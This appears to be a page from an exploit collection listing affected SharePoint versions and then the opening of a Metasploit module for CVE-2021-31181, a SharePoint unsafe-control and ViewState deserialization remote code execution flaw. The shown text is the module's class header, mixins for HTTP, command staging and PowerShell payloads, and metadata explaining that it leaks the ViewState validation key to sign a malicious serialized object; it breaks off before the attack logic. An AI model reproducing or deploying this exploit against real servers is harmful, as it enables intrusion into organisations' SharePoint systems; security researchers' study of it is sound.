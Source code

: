 <languages />

影响版本
--------

Tested against SharePoint 2019 and SharePoint 2016, both on Windows Server 2016.

EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote

      Rank = ExcellentRanking

      prepend Msf::Exploit::Remote::AutoCheck
      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::Remote::HTTP::Sharepoint
      include Msf::Exploit::CmdStager
      include Msf::Exploit::Powershell

      XML_NS = {
        'wpp' => 'http://microsoft.com/sharepoint/webpartpages',
        'soap' => 'http://www.w3.org/2003/05/soap-envelope',
        'xsi' => 'http://www.w3.org/2001/XMLSchema-instance',
        'xsd' => 'http://www.w3.org/2001/XMLSchema'
      }.freeze

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Microsoft SharePoint Unsafe Control and ViewState RCE',
            'Description' => %q{
              The EditingPageParser.VerifyControlOnSafeList method fails to properly validate user supplied data. This
              can be leveraged by an attacker to leak sensitive information in rendered-preview content. This module will
              leak the ViewState validation key and then use it to sign a crafted object that will trigger code execution
              when deserialized.

              Tested against SharePoint 2019 and SharePoint 2016, both on Windows Server 2016.
            },
            'Author' => [
              'Unknown', # Reported to HP ZDI team, Vulnerability discovery
              'Spencer McIntyre', # Module
              'wvu' # Module
            ],
            'References' => [
              [ 'CVE', '2021-31181' ],
              [ 'ZDI', '21-573' ],
              [ 'URL', 'https://www.zerodayinitiative.com/blog/2021/6/1/cve-2021-31181-microsoft-sharepoint-webpart-interpretation-conflict-remote-code-execution-vulnerability' ]
            ],
            'DisclosureDate' => '2021-05-11',
            'License' => MSF_LICENSE,
            'Platform' => 'win',